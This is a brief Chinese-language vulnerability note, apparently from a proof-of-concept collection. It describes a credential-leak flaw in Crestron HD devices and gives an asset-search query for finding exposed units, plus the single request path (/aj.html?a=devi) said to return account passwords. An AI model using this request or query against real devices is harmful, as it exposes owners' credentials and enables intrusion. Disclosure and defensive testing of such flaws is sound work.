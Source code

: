 # CrestronHD aj.html存在账号密码泄漏漏洞

### 一、漏洞描述
Crestron HD等系列设备 aj.html页面调用特定的参数可以获取账号密码等敏感信息

### 二、影响版本
<font style="color:#000000;">Crestron HD</font>

### 三、资产测绘
```plain
app="Crestron-HD-RX-201-C-E"
```

![1721629595136-6f0f4040-d481-492a-8494-dea2c83b1283.png](./img/PPvFl06oFahLD99Q/1721629595136-6f0f4040-d481-492a-8494-dea2c83b1283-902289.png)

### 四、漏洞复现
```plain
/aj.html?a=devi
```

![1721629619502-e589e5fa-400d-4d2f-b3b2-9c9af3fc7958.png](./img/PPvFl06oFahLD99Q/1721629619502-e589e5fa-400d-4d2f-b3b2-9c9af3fc7958-894426.png)



> 更新: 2024-08-12 17:48:53  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/cdvmx13vg4wd8fyr>